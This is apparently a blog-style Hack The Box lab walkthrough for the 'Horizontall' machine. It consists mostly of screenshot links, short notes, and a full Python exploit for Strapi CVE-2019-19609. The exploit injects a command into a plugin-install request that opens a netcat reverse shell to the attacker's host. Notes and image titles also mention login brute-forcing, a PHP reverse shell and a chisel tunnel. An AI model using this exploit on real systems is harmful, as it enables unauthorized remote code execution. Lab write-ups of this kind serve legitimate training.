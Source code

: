 ```yaml
---
title: "Horizontall (images only)"
date: 2021-08-29T18:00:00-00:00
publishdate: 2022-04-28T18:00:00-00:00
draft: false
hideTitle: false
Cover: /htb-info-cards/Horizontall.png
toc: true
tags: ["Laravel"]
categories: ["Walkthrough", "HTB", "Linux", "Easy"]
---
```


## Introduction

This walkthrough is just a series of screenshots showing how I got through the box. :man_shrugging: I did this box before I really worked out a process for recording my work effectively. Sorry!

If I find the time, I'll come back to this and try to document it properly. 



## Walkthrough

These are the notes I left for myself:

```
Found login page at http://api-prod.horizontall.htb/admin/auth/login

I could brute-force the login just with ffuf
Or I could try using the OpenSSH user enumeration CVE to obtain a list of users first?

The successful exploit was from https://github.com/dasithsv/CVE-2019-19609
I simply modified the port, (opened the firewall), set up a nc listener and got a shell
rhost was api-prod.horizontall.htb
lhost was 10.10.14.45
jwt was simply the jwt from my logged-in admin session (got it from firefox web dev tools)
url was http://api-prod.horizontall.htb/
```

This is the exploit I used:

```python
#!/bin/python

# Product: Strapi Framework
# Version Affected: strapi-3.0.0-beta.17.7 and earlier
# Fix PR: https://github.com/strapi/strapi/pull/4636
# NPM Advisory: https://www.npmjs.com/advisories/1424
# more information https://bittherapy.net/post/strapi-framework-remote-code-execution/

import requests
import sys

print("\n\n\nStrapi Framework Vulnerable to Remote Code Execution - CVE-2019-19609")
print("please set up a listener on port 31337 before running the script. you will get a shell to that listener\n")

if len(sys.argv) ==5:
    rhost = sys.argv[1]
    lhost = sys.argv[2]
    jwt = sys.argv[3]
    url = sys.argv[4]+'admin/plugins/install'

    headers = {
        'Host': rhost,
        'Authorization': 'Bearer '+jwt,
        'Content-Type': 'application/json',
        'Content-Length': '131',
        'Connection': 'close',
    }

    data = '{ "plugin":"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc '+lhost+' 31337 >/tmp/f)", "port":"80" }'
    response = requests.post(url, headers=headers, data=data, verify=False)

else:
    print('python3 exploit.py <rhost> <lhost> <jwt> <url>')

```



![00-first step](00-first%20step.png)

![01-api-prod enum](01-api-prod%20enum.png)

![02-login page post](02-login%20page%20post.png)

![03-password-reset-possibly-abusable](03-password-reset-possibly-abusable.png)

![04-strapi version](04-strapi%20version.png)

![05-exploit-success](05-exploit-success.png)

![06-logged-in-dashboard](06-logged-in-dashboard.png)

![07-making a user](07-making%20a%20user.png)

![08-uploaded-php](08-uploaded-php.png)

![09-modifying reverse shell](09-modifying%20reverse%20shell.png)

![15-hints of a database](15-hints%20of%20a%20database.png)

![20-mysql credentials in developer folder](20-mysql%20credentials%20in%20developer%20folder.png)

![22-got into mysql db](22-got%20into%20mysql%20db.png)

![34-version fingerprinting laravel](34-version%20fingerprinting%20laravel.png)

![35-version fingerprinting laravel](35-version%20fingerprinting%20laravel.png)

![40-setting up chisel tunnel](40-setting%20up%20chisel%20tunnel.png)

![45-trying out the exploit](45-trying%20out%20the%20exploit.png)

![49-getting root flag easy way](49-getting%20root%20flag%20easy%20way.png)

![50-got root flag](50-got%20root%20flag.png)

![55-getting flag itself](55-getting%20flag%20itself.png)

